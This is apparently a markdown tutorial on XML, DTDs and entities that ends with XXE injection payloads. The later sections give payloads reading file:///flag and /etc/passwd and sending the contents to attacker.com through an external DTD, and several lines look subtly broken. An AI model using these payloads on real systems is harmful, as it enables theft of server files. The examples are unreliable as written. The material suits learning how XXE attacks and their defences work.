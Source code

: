 # XML
* eXtensible Markup Language


* Sample XML 
```xml
<message>
    <to>Alice</to>
    <from>Bob</from>
    <subject>Test</subject>
    <body>Hello World</body>
</message>
```

## DTD
* Document Type Definition, defines the structure of an `XML` document. It is placed before the actual `XML` content.


### Internal DTD
```xml
<?xml version="1.0"?>
<!DOCTYPE message[
    <!ELEMENT message (to,from,subject,body)>
    <!ELEMENT to (#PCDATA)>
    <!ELEMENT from (#PCDATA)>
    <!ELEMENT subject (#PCDATA)>
    <!ELEMENT body (#PCDATA)>
]>
<message>
    <to>Alice</to>
    <from>Bob</from>
    <subject>Test</subject>
    <body>Hello World</body>
</message>
```

* `<!DOCTYPE>`: the root element of this document is `message`
* `<!ELEMENT message>`: Each `message` element must contain these four elements: `to`, `from`, `subject`, `body`.
* `#PCDATA`: Parsed Character Data

### External DTD
```xml
<?xml version="1.0"?>
<!DOCTYPE message SYSTEM "message.dtd">
<message>
    <to>Alice</to>
    <from>Bob</from>
    <subject>Test</subject>
    <body>Hello World</body>
</message>
```
* The `DTD` of this xml file is imported from `message.dtd` with `SYSTEM` keyword.
* `SYSTEM` specifies the inclusion of an external file into `XML`, can be from `URI` or `URL`


## DTD Entities
* Entities are like variables, and they live inside `DTD` block. We can declare entities and use them later with `&` and `;` symbol before the entity name.
* They are always reference the entity begin with `&` and end with `;`

### Internal DTD Entity
* They must be enclosed by `DOCTYPE`!
```xml
<!DOCTYPE pwn [
<!ENTITY email "some@email.com">
<!ENTITY author "Alice &email;">
]>
<author>&author;</author>
```

Result `XML` data:
```
<author>Alice some@email.com</author>
```

### External DTD Entity
* They must be enclosed by `DOCTYPE`!
```xml
<!DOCTYPE pwn [
<!ENTITY author SYSTEM "http://example.com/entities.dtd">
]>
<author>&author;</author>
```


### Parameter Entity, aka Embedded Entity
* We can define an `entity` with a entity definition. When `&outer` is called, it is parsed like `<!ENTITY inner 'My name is Alice'>`
```xml
<!ENTITY name "Alice">
<!ENTITY outer "<!ENTITY inner 'My name is &name;'>">
&outer;
```

* Another example
```xml
<!ENTITY name "Alice">
<!ENTITY outer "<!ENTITY inner 'My name is &name;'>">
&outer;
```
# Simple XXE payload
* `%26` is `&` urlencoded.
```xml
<!DOCTYPE wrapper [<!ENTITY pwn SYSTEM "file:///flag">]> <a>%26pwn;</a>
```
# Blind XXE injections
* Since we can't directly reference an Entity within an internal DTD, we have to make use an external DTD. `XXE` is also known as `XML external entity` injection
```xml
<?xml version="1.0"?>
<!DOCTYPE data SYSTEM "http://attacker.com/evil.dtd">
<data>&send;</data>
```
* `evil.dtd`:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % wrapper "<!ENTITY send SYSTEM "http://attacker.com/?passwd=%passwd;">">
%wrapper;
```

# Blind XXE injection with file content containing `<`
* We will use `CDATA`, character data to bypass this.
* Anything between `<![CDATA[ ` and `]]>` will not be parsed by the XML parser
* `evil.dtd`
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % wrapper "<!ENTITY all '%start;%file;%end;'>">
%wrapper;
<!ENTITY % wrapper_send "<!ENTITY send SYSTEM "http://attacker.com/?passwd=%wrapper;">">
%wrapper_send;
```


